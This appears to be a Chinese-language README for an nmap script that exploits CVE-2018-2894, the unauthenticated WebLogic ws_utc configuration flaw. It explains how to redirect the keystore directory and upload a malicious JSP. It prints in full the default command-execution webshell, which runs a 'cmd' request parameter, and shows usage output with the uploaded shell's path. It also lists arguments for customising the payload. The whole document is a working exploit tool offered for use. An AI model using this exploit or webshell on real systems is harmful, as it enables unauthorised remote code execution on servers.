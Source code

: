 # CVE-2018-2894


ws_utc 为 WebLogic Web 服务测试客户端，其配置页面存在未授权访问的问题，路径为 /ws_utc/config.do

攻击者通过访问此配置页面，先更改工作目录，用有效的 WebLogic Web 路径替换存储 JKS Keystores 的文件目录，然后在上传 JKS Keystores 时上传恶意的 JSP 脚本文件。访问最终的 JSP 文件路径地址，即可做到代码执行

安装方式：将weblogic-cve-2018-2894.nse放入nmap安装目录下的scripts目录中

说明:默认情况下会写入一个JSP执行命令的webshell：

```java
<%@ page import="java.io.*" %><%try {String cmd = request.getParameter("cmd");Process child = Runtime.getRuntime().exec(cmd);InputStream in = child.getInputStream();int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();try {child.waitFor();}catch (InterruptedException e) {e.printStackTrace();}}catch (IOException e) {System.err.println(e);}%>
```

你可以通过`--script-args`来指定文件名、URI路径和文件内容

## Usage

```
root@kali:~# nmap -Pn 172.19.0.2 -p 7001 --script=weblogic-cve-2018-2894 -n
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-23 02:26 EDT
Nmap scan report for 172.19.0.2
Host is up (0.000055s latency).

PORT     STATE SERVICE
7001/tcp open  afs3-callback
| weblogic-cve-2018-2894: 
|_  url: /ws_utc/config/keystore/1532327177_test.jsp
MAC Address: 02:42:AC:13:00:02 (Unknown)
```

## More

* -- @args weblogic-cve-2018-2894.uri points to the file '/weblogic/'. Default /
* -- @args weblogic-cve-2018-2894.filename the name of the file to be uploaded
* -- @args weblogic-cve-2018-2894.content  file's contents
* -- Other useful arguments when using this script are:
* -- * http.useragent = String - User Agent used in HTTP requests


